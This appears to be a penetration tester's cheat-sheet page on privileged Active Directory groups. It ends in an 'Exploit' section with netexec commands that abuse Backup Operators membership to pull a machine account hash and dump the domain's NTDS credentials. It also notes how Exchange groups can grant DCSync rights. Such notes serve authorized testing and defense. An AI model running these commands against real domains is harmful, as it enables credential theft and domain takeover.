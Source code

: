 ```yaml
---
tags:
  - Authenticated
  - Lateral-Movement
  - Privilege-Escalation
  - AD
---
```

## Identify
---
- **Domain Admins**
    - Full control of the domain and can manage all resources in the domain.
- **Enterprise Admins**
    - This group exists in the root domain of a forest and has full rights to administer any domain within the forest.
- **Schema Admins**
    - Members can modify the AD schema, which affects the entire forest. This group should have no permanent members unless schema changes are being made.
- **Administrators** (Built-in)
    - By default, this group has wide-ranging administrative privileges on a domain controller.
- **Server Operators**
    - Members can log on to domain controllers, start/stop services, format hard drives, and perform other significant administrative tasks.
- **Backup Operators**
    - Members can bypass file permissions to back up and restore files across the domain controller. This often grants access to sensitive data.
- **Account Operators**
    - Members can create, modify, and delete most user and group accounts (except for certain high-privilege groups), making them powerful with regard to identity management.
- **DNS Admins**
    - Members manage DNS servers, which control name resolution. A compromise here can enable attacks like DNS poisoning or redirection.
- **Key Admins & Enterprise Key Admins**
    - Introduced in newer versions of Active Directory Certificate Services (AD CS); these groups can manage public key infrastructure (PKI) objects and certificate authorities.
- **Exchange Organization Management** (if Microsoft Exchange is installed)
    - Members can administer all Exchange resources and mailboxes, with significant access to messaging data.
  
## Exploit
---

## **Backup Operators**
**Remote**
```bash
nxc smb <target> -u '' -p '' -M backup_operator
```
Get machine account hash and dump ntds with that.
```bash
nxc smb 172.16.210.5 -u 'DC01$' -H <MachineAccHash> --ntds --user Administrator
```

## **Exchange Groups**

[https://github.com/gdedrouas/Exchange-AD-Privesc](https://github.com/gdedrouas/Exchange-AD-Privesc)

**Exchange Windows Permissions**

- members are granted the ability to write a DACL to the domain object. This can be leveraged to give a user DCSync privileges.

**Organization Management**

- access the mailboxes of all domain users. It is not uncommon for sysadmins to be members of this group. This group also has full control of the OU called Microsoft Exchange Security Groups, which contains the group Exchange Windows Permissions.